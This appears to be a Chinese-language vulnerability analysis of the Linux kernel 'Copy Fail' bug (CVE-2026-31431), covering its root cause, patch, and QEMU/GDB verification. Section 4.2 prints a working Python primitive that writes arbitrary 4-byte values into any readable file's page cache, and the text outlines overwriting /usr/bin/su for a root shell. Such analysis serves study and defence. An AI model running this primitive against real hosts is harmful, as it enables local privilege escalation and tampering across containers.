

> *从 Crypto 子系统的一个优化 commit，到 9 年后的任意文件页缓存覆写*

## 一、引言

2026 年 4 月底，安全研究员 [Taeyang Lee](https://xint.io/blog/copy-fail-linux-distributions) 公开披露了一个编号为 [CVE-2026-31431](https://nvd.nist.gov/vuln/detail/CVE-2026-31431) 的 Linux 内核漏洞，并为其取了一个颇具讽刺意味的名字——**[Copy Fail](https://copy.fail/)**。

这个名字精确地概括了漏洞的本质：2017 年，一位内核开发者为了修复 AF_ALG 加密接口中"AAD 数据没有从 src 复制到 dst"的 bug，引入了一个 in-place 优化。这个优化本身完全合理，但它无意中打破了内核 crypto 子系统中另一个模块 (`authencesn`) 长期以来的一个隐含假设——"目标 buffer 是连续的内核内存，向其中写几个字节不会造成任何副作用"。

当这两个独立子系统在 `splice()` 的帮助下与 **Page Cache** 交汇时，一个无特权的本地用户可以向系统中**任意可读文件**的页面缓存写入 4 字节可控数据。

这不是通常意义上的内存越界写或 UAF。它的危害更加隐蔽和深远：

- **本地提权**：多次调用覆盖 `/usr/bin/su` 的 ELF 头部 → root shell
- **零特权跨容器攻击**：同一宿主机上不同 namespace 的容器共享镜像层的 page cache → 一个容器可以破坏另一个容器的二进制文件
- **绕过只读挂载**：文件只需 `O_RDONLY` 打开即可触发页面缓存写入 → readOnly volume 形同虚设
- **默认安全配置全面失守**：Docker/Kubernetes 的默认 seccomp profile 和 SELinux targeted 策略均不阻止漏洞利用

漏洞影响 2017 年至 2026 年之间的所有主流 Linux 发行版内核（[CVSS 7.8 High](https://nvd.nist.gov/vuln/detail/CVE-2026-31431)），持续潜伏了近 9 年。

> **ℹ️ 时间线**
> | 日期 | 事件 |
> |------|------|
> | 2011 | `authencesn` 模块引入，ESN scratch write 在当时的场景下完全无害 |
> | 2015 | AF_ALG 获得 AEAD + splice 支持，但采用 out-of-place 方式 |
> | 2017-07 | commit [`72548b093ee3`](https://github.com/torvalds/linux/commit/72548b093ee3) 引入 in-place 优化 → **漏洞诞生** |
> | 2026-03-23 | 漏洞报告给 Linux kernel security team |
> | 2026-04-01 | 补丁 [`a664bf3d603d`](https://github.com/torvalds/linux/commit/a664bf3d603dc3bdcf9ae47cc21e0daec706d7a5) 合入 mainline |
> | 2026-04-22 | CVE-2026-31431 编号分配 |
> | 2026-04-29 | 公开披露 |
> | 2026-05-01 | [CISA 加入 KEV 目录](https://www.cisa.gov/known-exploited-vulnerabilities-catalog?field_cve=CVE-2026-31431)，截止修复日期 2026-05-15 |
> | 2026-05-04 | Docker [29.4.2 默认 seccomp 阻止 AF_ALG](https://github.com/moby/moby/pull/52494)；RHEL 9/10 内核补丁发布 |
> | 2026-05-06 | Docker [29.4.3 修复回归](https://github.com/moby/moby/releases/tag/docker-v29.4.3)，改用 AppArmor/SELinux 阻止 AF_ALG；RHEL 8 补丁发布 |
> | 2026-05-07 | [Dirty Frag](https://dirtyfrag.io/) (CVE-2026-43284/43500) 公开披露，同类漏洞影响 ESP/RxRPC 子系统 |

本文将从漏洞触发的前置知识开始，逐步深入根因分析、PoC 原理与内核级动态验证，随后系统性地探索宿主机提权和容器环境下的各类攻击路径及其可行性边界，最后给出防御方案和基于 `O_DIRECT` + `fanotify` 的页缓存完整性检测方案。

---

## 二、背景知识

理解 Copy Fail 需要几个前置概念。它们之间存在层层依赖关系：

```
Scatterlist (SGL)    AEAD Crypto            Page Cache
     |                |       |                |
scatterwalk        AAD    authencesn        splice()
     |                |       |                |
     +--------+-------+       |                |
              |                |                |
          AF_ALG --------------+                |
              |                                 |
          algif_aead ----------------------------+
```

下面逐一展开。

### 2.1 Page Cache：Linux 的全局文件缓存

当进程通过 `read()` 读取 `/usr/bin/cat` 时，内核不会每次都去磁盘拿数据。它会先检查一块叫做 **Page Cache** 的内存区域——如果文件的对应页面已经缓存在内存中，就直接返回缓存数据。

Page Cache 的几个关键特性与本漏洞直接相关：

**全局共享**。Page Cache 以 `(inode, page_offset)` 为 key 索引，不属于任何特定进程。同一台机器上的所有进程，只要访问的是同一个 inode，就会命中同一份 page cache。进程 A 通过 `read()` 将某个文件加载到 page cache 后，进程 B 读取同一文件时直接命中缓存，无需再次访问磁盘。

**回写机制**。对于通过正常 `write()` 路径产生的修改，内核会将对应的 page 标记为 dirty，稍后由回写线程（pdflush / writeback）异步刷到磁盘。但如果某种**内核路径绕过了 VFS 层**直接修改了 page cache 页面，dirty 标记不会被设置——修改只存在于内存中，重启或 `drop_caches` 后丢失。

**即时可见**。一旦 page cache 中的某个页面被修改（无论通过何种路径），所有后续的 `read()` 调用都会立即看到修改后的内容。这包括同一台机器上的其他进程，也包括容器环境下通过 overlayfs 共享同一底层 inode 的进程（详见 Section 6.1）。


### 2.2 Scatterlist：分散-聚集列表

在内核中，一段逻辑连续的数据（比如 10KB 的加密载荷）在物理内存中通常分布在多个不连续的 4KB 页面上。为了描述"这段数据由哪些页面的哪些偏移组成"，内核使用 **Scatterlist**（SGL，分散-聚集列表）。

每个 `struct scatterlist` entry 描述一段连续的物理内存区域：

```c
struct scatterlist {
    unsigned long   page_link;  // 指向 page 结构（或 CHAIN 到下一个 SGL 数组）
    unsigned int    offset;     // 页面内的起始偏移
    unsigned int    length;     // 数据长度
};
```

当一个 SGL 数组不够用时，可以通过 **SG_CHAIN** 机制链接多个数组：最后一个 entry 的 `page_link` 不再指向数据页面，而是指向下一个 SGL 数组的起始地址。遍历 SGL 时，`scatterwalk` 迭代器负责透明地处理这种链式结构。

这个设计本身没有问题。但当 SGL 中的某些 entry 指向的不是普通的内核分配内存，而是 **page cache 中的页面**时，对 SGL 的写操作就等于直接修改了文件的缓存内容——这正是 Copy Fail 的核心利用点。


### 2.3 splice：零拷贝的代价

`splice()` 是 Linux 提供的一种高性能数据传输系统调用。它的核心思想是避免数据在内核空间和用户空间之间来回复制——通过直接在内核管道 buffer 之间移动 **页面引用**。

普通的 `read()` + `write()` 流程需要将文件数据拷贝到用户空间 buffer，再从用户空间 buffer 拷贝到目标。而 `splice()` 直接把文件的 page cache 页面引用传递给管道的另一端，全程不发生数据拷贝。


在 AF_ALG 加密接口中，`splice()` 被用来将文件数据"喂"给加密算法。此时文件的 **page cache pages 被直接放入 TX SGL**——这些 SGL entry 中的 `page_link` 直接指向全局共享的 page cache 页面。这是一个关键的设计决策：如果后续有任何代码路径向这个 SGL 写入数据，就相当于直接修改了文件的 page cache。

### 2.4 AF_ALG：用户空间加密接口

Linux 内核提供了一套用户空间可以直接使用的加密 API，叫做 **AF_ALG**（Address Family: Algorithm）。它的接口设计为 socket 风格：

```python
import socket, os

AF_ALG = 38
SOL_ALG = 279

# 1. 创建 AF_ALG socket，指定使用的加密算法
alg_sock = socket.socket(AF_ALG, socket.SOCK_SEQPACKET, 0)
# 绑定算法名称，例如 AEAD 类型的 gcm(aes)
alg_sock.bind(("aead", "gcm(aes)"))
alg_sock.setsockopt(SOL_ALG, 1, key_bytes)    # ALG_SET_KEY: 设置密钥
alg_sock.setsockopt(SOL_ALG, 4, None, 16)     # ALG_SET_AEAD_AUTHSIZE: 设置 auth tag 大小

# 2. accept 获得一个操作用的 socket
op_sock = alg_sock.accept()[0]

# 3. 通过 sendmsg 发送待加密/解密的数据
#    cmsg 中通过控制消息指定操作类型(加密/解密)、IV、AAD 长度等参数
op_sock.sendmsg([plaintext_data], control_messages)

# 4. recv 获取加密/解密结果（内核在此时执行实际的加解密操作）
result = op_sock.recv(output_buffer_size)
```

AF_ALG 还支持通过 `splice()` 把文件内容直接"喂"给加密算法，避免数据在内核空间和用户空间之间来回复制。这一特性是 Copy Fail 利用链的关键：splice 进入的文件数据在内核中以 page cache page 引用的形式存入 TX SGL，而不是数据拷贝。

在内核中，`algif_aead.c` 负责处理 AEAD 类型的加密请求。它管理 TX SGL（用户发送的数据）和 RX SGL（用户接收 buffer），并最终调用底层加密算法（如 `authencesn`）执行实际的加解密操作。

### 2.5 AEAD 认证加密与 authencesn 的 scratch write

**AEAD**（Authenticated Encryption with Associated Data）是一类同时提供保密性和完整性保证的加密方案。它处理的数据格式为：

```
输入:  AAD (Associated Data) || Ciphertext || Auth Tag
输出:  AAD || Plaintext
```

其中 AAD 是明文关联数据（不加密但参与认证），Ciphertext 是密文，Auth Tag 是认证标签。

**authencesn** 是 Linux 内核中的一个 AEAD 算法实现，全称 "authenc with Extended Sequence Number"，为 IPsec 的 ESN（扩展序列号）协议设计。

**AAD 的含义**

在 AEAD 加密中，AAD（Associated Data）是"需要认证但不需要加密"的附加数据。比如在 TLS 中，AAD 是记录头（内容类型、协议版本、数据长度）；在 IPsec 中，AAD 包含安全参数索引和序列号。不同场景下 AAD 的具体内容不同，但 AEAD 算法只需要知道"前 `assoclen` 字节是 AAD"即可。

**authencesn 为什么要向 dst buffer 写数据**

ESN 协议使用 64 位序列号（防止回绕攻击），但网络传输中只携带低 32 位，高 32 位由通信双方本地维护。authencesn 需要在 HMAC 计算时纳入完整的 64 位序列号。它的做法是：

1. 将序列号的高 32 位放在 AAD[4:8] 中
2. 在计算 HMAC 之前，把 AAD[4:8] **临时写入** dst buffer 中 auth tag 原本所在的位置（这样 HMAC 计算就能覆盖完整序列号）
3. HMAC 完成后再还原

这个"临时写入"就是所谓的 **ESN scratch write**：

```c
// crypto/authencesn.c - crypto_authenc_esn_decrypt()

// 从 AAD 中读取前 8 字节
scatterwalk_map_and_copy(tmp, req->dst, 0, 8, 0);
// 在 IPsec 场景: tmp[0] = SPI, tmp[1] = SeqNo_Hi

unsigned int cryptlen = req->cryptlen;
cryptlen -= authsize;  // 定位到 auth tag 区域的起始

// 将 AAD[4:8] 临时写入 dst 中 tag 区域，供 HMAC 计算使用
scatterwalk_map_and_copy(tmp + 1, req->dst, assoclen + cryptlen, 4, 1);
//                       ^^^^^^^^                                ^
//                    AAD[4:8]                               4字节, 1=写方向
```

写入大小是**硬编码的 4 字节**（`sizeof(u32)`），写入的值来自 AAD[4:8]。

在 IPsec 的正常场景中，`req->dst` 指向内核通过 `kmalloc` 分配的连续 buffer，AAD[4:8] 是合法的序列号数据。临时写入和还原完全无害。

**AF_ALG 打开的攻击面**

但是通过 AF_ALG 接口，**用户空间可以直接调用 authencesn 算法，并且完全控制 AAD 的内容**。authencesn 不做任何校验——它不关心 AAD[4:8] 到底是不是真正的 ESN 序列号，只是机械地把这 4 字节写入 dst 的固定偏移处。

只要把想写入 page cache 的数据放进 AAD[4:8]，authencesn 就会忠实地把它写入 dst 的固定偏移处。

那么问题来了——如果 `req->dst` 中包含的不是 kmalloc buffer，而是 **page cache pages** 呢？

---

## 三、漏洞成因分析

### 3.1 漏洞引入：一个合理的优化

2017 年 7 月，内核开发者 Stephan Mueller 提交了 commit [`72548b093ee3`](https://github.com/torvalds/linux/commit/72548b093ee3)，标题是 "crypto: algif_aead - copy AAD from src to dst"。

这个 commit 要解决的是一个真实的 bug。在此之前，`algif_aead` 的解密路径使用 **out-of-place** 模式：

```c
// 2017 之前: out-of-place
aead_request_set_crypt(&areq->aead_req,
                       areq->tsgl,              // req->src = TX SGL（输入数据）
                       areq->first_rsgl.sgl.sg, // req->dst = RX SGL（用户接收 buffer）
                       used, ctx->iv);
```

TX SGL 包含用户通过 `sendmsg()` 和 `splice()` 发送进来的全部数据（AAD + 密文 + 认证标签），RX SGL 指向用户空间的接收 buffer。AEAD 规范要求解密结果包含 AAD，但底层算法只处理密文部分，AAD 需要调用方自行从 src 复制到 dst。旧版 `algif_aead` 没做这个复制，导致用户收到的输出中 AAD 区域是全零。

commit `72548b093ee3` 的修复方案分三步：

1. **先把 AAD + 密文从 TX SGL 复制到 RX buffer**（`memcpy_sglist`），这样 AAD 就出现在输出中了
2. **把 TX SGL 中认证标签（auth tag）所在的 page 通过 `sg_chain()` 链接到 RX SGL 尾部**——因为 AEAD 解密需要读取 tag 来做认证校验，tag 不属于输出但必须在 dst SGL 中可达
3. **设置 `req->src = req->dst = RX SGL`**（此时 RX SGL 已包含 AAD + 密文 + chained tag pages）

```c
// 2017 之后的漏洞代码 (in-place)
// Step 1: 复制 AAD+密文 到 RX buffer
memcpy_sglist(rsgl, tsgl_src, outlen);  // outlen = assoclen + cryptlen - authsize

// Step 2: 从 TX SGL 中取出 tag pages
af_alg_pull_tsgl(sk, processed, areq->tsgl, processed - as);
// Step 3: 链到 RX SGL 尾部
sg_chain(rsgl_sg, rsgl_nents, areq->tsgl);

// Step 4: in-place — src 和 dst 都指向 这个 combined RX SGL
aead_request_set_crypt(&areq->aead_req,
                       rsgl_src,   // req->src = RX SGL (含 chained tag pages)
                       rsgl_dst,   // req->dst = RX SGL (同一个!)
                       used, ctx->iv);
```

功能上这完美解决了 AAD 复制问题。但问题出在 Step 2 中取出的 **tag pages**——它们来自 TX SGL，而 TX SGL 中通过 `splice()` 进入的数据直接引用了文件的 page cache pages。这些 page cache pages 现在被 chain 到了 `req->dst` 中。

### 3.2 设计假设冲突

问题的本质是两个子系统之间存在一个从未被明确约定的**隐含假设冲突**：

| 子系统 | 假设 |
|--------|------|
| `authencesn` ([2011](https://github.com/torvalds/linux/commit/a5079d084f8b)) | `req->dst` 是连续 kmalloc buffer，scratch write 无副作用 |
| `algif_aead` 优化 ([2017](https://github.com/torvalds/linux/commit/72548b093ee3)) | `req->dst` 尾部通过 sg_chain 链入了来自 TX SGL 的 page cache pages |

在 authencesn 的所有其他调用场景中（主要是 IPsec/xfrm），dst 确实是内核分配的连续 buffer。`algif_aead` 的 in-place 优化是第一个（也是唯一一个）将 page cache pages 放入 `req->dst` SGL 的代码路径。

### 3.3 完整触发路径


现在把整个漏洞触发过程从头到尾走一遍。假设目标是向某个文件的偏移 `t` 处写入 4 字节可控数据。

**Step 1：用户空间发送数据**

利用时设置以下参数：
- `assoclen = 8`（AAD 长度，通过 sendmsg 的控制消息指定）
- `authsize = 4`（认证标签大小，通过 `setsockopt(ALG_SET_AEAD_AUTHSIZE)` 设置）

然后分两步向 AF_ALG socket 发送数据：

```python
# 要写入的 4 字节数据
evil_bytes = b'\xde\xad\xbe\xef'

# Step 1: 通过 sendmsg 发送 8 字节 AAD
# AAD[0:4] = 任意填充, AAD[4:8] = 要写入 page cache 的数据
# authencesn 会把 AAD[4:8] 作为 ESN seqno_lo 写入 scratch 区域
aad = b'\x00\x00\x00\x00' + evil_bytes   # 8 字节
op.sendmsg([aad], cmsg, MSG_MORE)  # MSG_MORE: 后续还有数据

# Step 2: 通过 splice 将目标文件的前 t+4 字节送入 AF_ALG socket
# splice 直接传递 page cache page 引用，不复制数据
pipe_r, pipe_w = os.pipe()
target_fd = os.open("/usr/bin/su", os.O_RDONLY)
os.splice(target_fd, pipe_w, t + 4, offset_src=0)  # 文件 → 管道
os.splice(pipe_r, op.fileno(), t + 4)               # 管道 → AF_ALG socket
```

**Step 2：TX SGL 布局**

两次发送后，内核中的 TX SGL 包含：

```
TX SGL:
+--------------------+----------------------------------------+
| sendmsg data (8B)  | splice data (t+4 bytes)                |
| AAD: 4 zero bytes  | file[0:t+4]                            |
|      + evil_bytes  | page cache page refs via splice        |
|  (kmalloc memory)  | (points to GLOBAL SHARED page cache!)  |
+--------------------+----------------------------------------+
```

从 AEAD 解密的视角来解读这段连续数据：

- **AAD** = 前 `assoclen=8` 字节 = sendmsg 发送的 `\x00\x00\x00\x00` + `evil_bytes`
- **密文 (Ciphertext)** = 中间 `t` 字节 = file[0:t]（文件的前 t 字节被当成"密文"）
- **认证标签 (Auth Tag)** = 最后 `authsize=4` 字节 = file[t:t+4]

总字节数 = 8 + t + 4 = t + 12。

**Step 3：recv 触发解密 → in-place SGL 构建**

调用 `recv()` 触发 `_aead_recvmsg()`。漏洞代码执行以下操作：

```
outlen = assoclen + (cryptlen - authsize) = 8 + ((t+4) - 4) = t + 8

(1) memcpy_sglist(RX buffer, TX SGL, outlen=t+8):
    Copy first t+8 bytes of TX SGL to RX buffer (user-space allocated memory)
    RX buffer contents:
      [0:8]   = copy of AAD (sendmsg data)
      [8:8+t] = copy of file[0:t] (ciphertext portion)
    Note: this is a DATA COPY, not a page reference

(2) af_alg_pull_tsgl(TX SGL, skip=t+8, take=4):
    Skip first t+8 bytes of TX SGL, extract last 4 bytes (tag region)
    These 4 bytes in TX SGL correspond to file[t:t+4] from splice
    -> SGL entry: { page = file's page cache page, offset = t%4096, length = 4 }
    -> This is the ORIGINAL page cache reference, NOT a copy!

(3) sg_chain(RX SGL tail, tag SGL):
    Chain the tag page reference to the end of RX SGL
```

最终的 combined dst SGL（也是 src）布局：

```
combined dst SGL (= req->src = req->dst):

+-- RX buffer (user-space, SAFE) ----+  +-- chained tag (PAGE CACHE!) ------+
|                                    |  |                                   |
| AAD (8B)  |  ciphertext (tB)       |->|  file[t:t+4] in page cache       |
|           |  = copy of file[0:t]   |  |  original page ref from splice   |
|                                    |  |                                   |
+-- offset 0                t+8 -----+  +-- offset t+8               t+12 -+
```

关键点：**RX buffer 部分是内核分配的用户空间内存（安全），但尾部 chained 的 tag pages 是文件的 page cache 原始页面引用**。

**Step 4：authencesn 的 scratch write → 命中 page cache**

`crypto_authenc_esn_decrypt()` 开始执行。ESN scratch write 的目标位置计算：

```c
// crypto_authenc_esn_decrypt() 的 scratch write:

// 先读取 AAD[0:8]
scatterwalk_map_and_copy(tmp, req->dst, 0, 8, 0);  // tmp[0]=AAD[0:4], tmp[1]=AAD[4:8]

unsigned int cryptlen = req->cryptlen;  // = t + 4 (密文 + tag 的长度)
cryptlen -= authsize;                   // = t + 4 - 4 = t

// 将 tmp[1] (= AAD[4:8] = evil_bytes) 写入 dst[assoclen + cryptlen]
scatterwalk_map_and_copy(tmp + 1, req->dst, assoclen + cryptlen, 4, 1);
//                       ^^^^^^^^                  ^^^^^^^^^^^^^^^^  ^
//                    = AAD[4:8]                   = 8 + t          写方向
//                    = evil_bytes
```

写入位置是 dst SGL 的偏移 `8 + t`。对照上面的 combined SGL 布局：

- RX buffer 部分占据 [0, t+8)，共 t+8 字节
- chained tag pages 从偏移 t+8 开始

`8 + t` 恰好是 RX buffer 的边界，也就是 **chained tag pages 的起始位置**。

而 tag pages 是 file[t:t+4] 的 page cache 原始引用。所以 scratch write 写入的就是文件 page cache 中偏移 `t` 处的 4 字节。

写入的值 = `tmp[1]` = AAD[4:8] = 通过 sendmsg 传入的 `evil_bytes`。

**至此链条闭合：写入位置通过 splice 长度控制（决定 t），写入内容通过 sendmsg 的 AAD[4:8] 控制。两者都是用户空间可自由指定的参数。**

**为什么写入不可逆？**

解密完成后，`crypto_authenc_esn_decrypt_tail()` 会尝试恢复被 scratch write 覆盖的数据。但这里有一个关键细节：它先**读取** `dst[8+t]` 处的当前值（此时已是 payload），然后写回 AAD[0:8] 到 `dst[0:8]`。**dst[8+t] 处从未被写回原始值**。

而且 HMAC 校验必然失败（因为数据已被篡改），`recvmsg` 返回 `-EBADMSG`。但此时 page cache 写入已经发生，无法回滚。漏洞利用时只需忽略这个错误即可。

### 3.4 控制能力分析

**写入位置**：通过调整 `splice()` 的长度（= t + authsize = t + 4）来控制 t，即写入的目标文件偏移。每次调用可以定位到文件中的任意偏移处。

**写入内容**：通过 sendmsg 发送的 AAD[4:8]（4 字节），完全可控。

**写入大小**：固定 4 字节。这不是由 `setsockopt(ALG_SET_AEAD_AUTHSIZE)` 决定的——authsize 只影响偏移计算中的 `cryptlen -= authsize`。4 字节是 authencesn 中硬编码的 `sizeof(u32)`（ESN 序列号高 32 位的大小）。单次写入字节数无法改变，但多次调用即可覆盖文件的连续区域。

**目标文件**：任何当前用户有读权限的文件。PoC 用 `O_RDONLY` 打开文件，不需要写权限，因为写入路径不经过 VFS 的权限检查。

总结：

```
写入目标: file page cache[t : t+4]
写入值:   sendmsg 发送的 AAD[4:8] (4 字节, 完全可控)
写入大小: 固定 4 字节 (authencesn 硬编码的 u32)
触发条件: assoclen=8, authsize=4, splice 长度=t+4
文件权限: 只需 O_RDONLY，不需要写权限
根本原因: dst SGL 尾部 chained 的 tag pages 是 splice 引入的 page cache 原始引用
```

### 3.5 补丁分析

修复补丁 [`a664bf3d603d`](https://github.com/torvalds/linux/commit/a664bf3d603dc3bdcf9ae47cc21e0daec706d7a5) 的作者 Herbert Xu 在 commit message 中写道：

> This mostly reverts commit 72548b093ee3 except for the copying of the associated data. There is no benefit in operating in-place in algif_aead since the source and destination come from different mappings.

修复方案：**去掉 in-place 模式**，让 `req->src` 和 `req->dst` 重新指向不同的 SGL：

```c
// 修复后: out-of-place
// src = TX SGL (包含 page cache pages，但只读)
// dst = RX SGL (纯用户空间 buffer)
aead_request_set_crypt(&areq->aead_req,
                       tsgl_src,   // req->src = TX SGL
                       rsgl_dst,   // req->dst = RX SGL (独立!)
                       used, ctx->iv);

// AAD 通过显式 memcpy 复制到 RX buffer
memcpy_sglist(rsgl_src, tsgl_src, ctx->aead_assoclen);
```

修复后，`req->dst` 只包含用户空间分配的 RX buffer，不再有 page cache pages。authencesn 的 scratch write 写入的是用户自己的接收缓冲区——完全无害。

补丁净删除约 92 行代码：移除了 tag page chain、in-place 分支、`af_alg_pull_tsgl` 的 offset 参数等所有为 in-place 操作添加的复杂逻辑。整个 `sg_chain()` 调用被彻底消除——不再有任何 page cache page 出现在 `req->dst` 中的可能。（补丁全文可在 [GitHub](https://github.com/torvalds/linux/commit/a664bf3d603dc3bdcf9ae47cc21e0daec706d7a5.patch) 查看。）

---

## 四、PoC 分析与动态验证

### 4.1 公开 PoC 结构

公开的 [Copy Fail PoC](https://xint.io/blog/copy-fail-linux-distributions) 是一个 732 字节的高度混淆 Python 脚本，通过 base64 + zlib 压缩嵌套了真正的利用代码。解码后的核心是一个 `page_cache_write_4bytes(fd, offset, value)` 函数，它执行上述漏洞触发路径来向指定文件的 page cache 写入 4 字节。

PoC 的完整利用流程是：

1. 打开 `/usr/bin/su`（SUID root binary）的只读 fd
2. 多次调用 `page_cache_write_4bytes()`，将 `/usr/bin/su` 的前 160 字节 ELF header 覆盖为一个精心构造的 ELF payload（包含一段获取 root shell 的 shellcode）
3. 执行被篡改的 `/usr/bin/su` → 获得 root shell

这里有一个有趣的细节：PoC 是用 `O_RDONLY` 打开目标文件的。对于常规的 VFS 写操作，只读 fd 会被内核拒绝。但 Copy Fail 的写入路径不经过 VFS 的权限检查——它通过 crypto 子系统的 scratch write 直接修改 page cache 页面。这意味着**任何可读文件都是潜在的攻击目标**，包括被挂载为 readOnly 的文件。

### 4.2 核心函数实现

去混淆后的核心函数（对照 Section 3 的数据流）：

```python
AF_ALG = 38
SOL_ALG = 279
ASSOCLEN = 8    # AAD 长度
AUTHSIZE = 4    # auth tag 大小 (也影响偏移计算)

def page_cache_write_4bytes(fd, offset, value):
    """向 fd 指向文件的 page cache[offset : offset+4] 写入 value (4字节)"""

    # 创建 AF_ALG socket, 绑定 authencesn(hmac(sha256),cbc(aes)) 算法
    s = socket.socket(AF_ALG, socket.SOCK_SEQPACKET, 0)
    s.setsockopt(SOL_ALG, 2,  # ALG_SET_KEY: 密钥 (全零, 内容不影响漏洞触发)
                 b'\x08\x00\x01\x00'    # rtattr 头
                 b'\x00\x00\x00\x10'    # enckeylen=16 (AES-128)
                 + b'\x00' * 32)         # 16B authkey + 16B enckey
    s.setsockopt(SOL_ALG, 4, None, AUTHSIZE)  # ALG_SET_AEAD_AUTHSIZE = 4

    op = s.accept()[0]

    # 构造 8 字节 AAD: 前 4B 填充零, 后 4B 是要写入 page cache 的 value
    # authencesn 会把 AAD[4:8] (= value) 写入 dst[assoclen + cryptlen]
    aad = b'\x00' * 4 + value   # 8 字节
    op.sendmsg([aad],
               [(SOL_ALG, 2, b'\x00' * 4),             # ALG_OP_DECRYPT
                (SOL_ALG, 3, b'\x10' + b'\x00' * 19),   # IV = 16B zero
                (SOL_ALG, 4, struct.pack('I', ASSOCLEN))], # assoclen = 8
               socket.MSG_MORE)

    # 通过 splice 将目标文件的 [0, offset+4) 送入 AF_ALG socket
    # splice 传递 page cache page 引用 (零拷贝)
    pr, pw = os.pipe()
    os.splice(fd, pw, offset + AUTHSIZE, offset_src=0)
    os.splice(pr, op.fileno(), offset + AUTHSIZE)

    try:
        op.recv(ASSOCLEN + offset)  # 触发 _aead_recvmsg → authencesn scratch write
    except OSError:
        pass  # HMAC 校验失败返回 EBADMSG, 但 page cache 写入已完成
    op.close(); s.close(); os.close(pr); os.close(pw)
```

### 4.3 QEMU + GDB 内核级验证

为了从内核层面验证漏洞的完整触发路径，需要搭建一个可控的调试环境：在 QEMU 中运行带有调试符号的 Linux 6.12.8 内核，通过 GDB 远程调试在关键函数设置断点，捕获完整的执行链。

> **💡 实验环境代码**
> 本节涉及的所有脚本和配置文件：[GitHub Gist — QEMU Debug Environment](https://gist.github.com/0xlane/a854338363e449bdb002b43ff5080e55)
> GDB 断点脚本：[GitHub Gist — GDB Scripts](https://gist.github.com/0xlane/0d565281d6a2ae05de2fc310a4a23a90)

#### 4.3.1 搭建调试环境

整个调试环境通过 Docker 构建（避免在 macOS 上配置交叉编译链），产出三个文件：压缩内核 `bzImage`、调试符号 `vmlinux`、以及包含 PoC 工具的 initramfs。

```bash
# 构建内核 + busybox + PoC (通过 Docker，约 10 分钟)
docker build -t copyfail-build -f Dockerfile .
docker run --rm -v $(pwd)/output:/output copyfail-build

# 产出:
#   output/bzImage        — 压缩内核 (4.8M)
#   output/vmlinux        — 带 DWARF 调试符号 (126M, 给 GDB 用)
#   output/rootfs.cpio.gz — initramfs (含 busybox + poc_pagecache_write)
```

内核配置的关键选项（确保 crypto 子系统和调试符号完整）：

```
CONFIG_CRYPTO_USER_API_AEAD=y    # AF_ALG AEAD 接口
CONFIG_CRYPTO_AUTHENC=y          # authenc 模块
CONFIG_CRYPTO_SEQIV=y            # 序列号 IV
CONFIG_DEBUG_INFO_DWARF5=y       # 完整调试符号
CONFIG_GDB_SCRIPTS=y             # GDB helper scripts
CONFIG_KALLSYMS_ALL=y            # 所有内核符号可见
```

启动 QEMU 虚拟机：

```bash
# 普通启动 (直接进入 shell)
./run_qemu.sh

# 调试模式 (QEMU 暂停, 等待 GDB 连接到 :1234)
./run_qemu.sh debug
```

在另一个终端连接 GDB：

```bash
gdb ./vmlinux -ex 'target remote :1234' -ex 'continue'
```

#### 4.3.2 实验 1：Page Cache 写入验证

在 QEMU 虚拟机的 shell 中，执行自动化实验脚本：

```bash
# === VM 内执行 ===

# 1. 创建测试文件
echo "AABBCCDD EEFFGGHH IIJJKKLL MMNNOOPP" > /tmp/target.txt
hexdump -C /tmp/target.txt
# 00000000  41 41 42 42 43 43 44 44  20 45 45 46 46 47 47 48  |AABBCCDD EEFFGGH|
# 00000010  48 20 49 49 4a 4a 4b 4b  4c 4c 20 4d 4d 4e 4e 4f  |H IIJJKKLL MMNNO|
# 00000020  4f 50 50 0a                                        |OPP.|

# 2. 第一次写入: offset 0, value 0xDEADBEEF
poc_pagecache_write /tmp/target.txt 0 0xDEADBEEF
# [*] Target: /tmp/target.txt
# [*] Offset: 0 (0x0)
# [*] Value:  0xdeadbeef
# [*] Writing 4 bytes to page cache...
# [+] Done. Page cache of /tmp/target.txt at offset 0 should now contain 0xdeadbeef

# 3. 验证写入结果
hexdump -C /tmp/target.txt | head -2
# 00000000  ef be ad de 43 43 44 44  20 45 45 46 46 47 47 48  |....CCDD EEFFGGH|
#           ^^^^^^^^^^^
#           0xDEADBEEF (little-endian)

# 4. 第二次写入: offset 8, value 0xCAFEBABE
poc_pagecache_write /tmp/target.txt 8 0xCAFEBABE

# 5. 验证两次写入互不干扰
hexdump -C /tmp/target.txt | head -2
# 00000000  ef be ad de 43 43 44 44  be ba fe ca 46 47 47 48  |....CCDD....FGGH|
#                                    ^^^^^^^^^^^
#                                    0xCAFEBABE (little-endian)

# 6. drop_caches 行为验证 (tmpfs 上的文件不会恢复)
echo 3 > /proc/sys/vm/drop_caches
hexdump -C /tmp/target.txt | head -2
# 00000000  ef be ad de 43 43 44 44  be ba fe ca 46 47 47 48  |....CCDD....FGGH|
# ↑ tmpfs: 数据只存在于 page cache, drop_caches 不驱逐
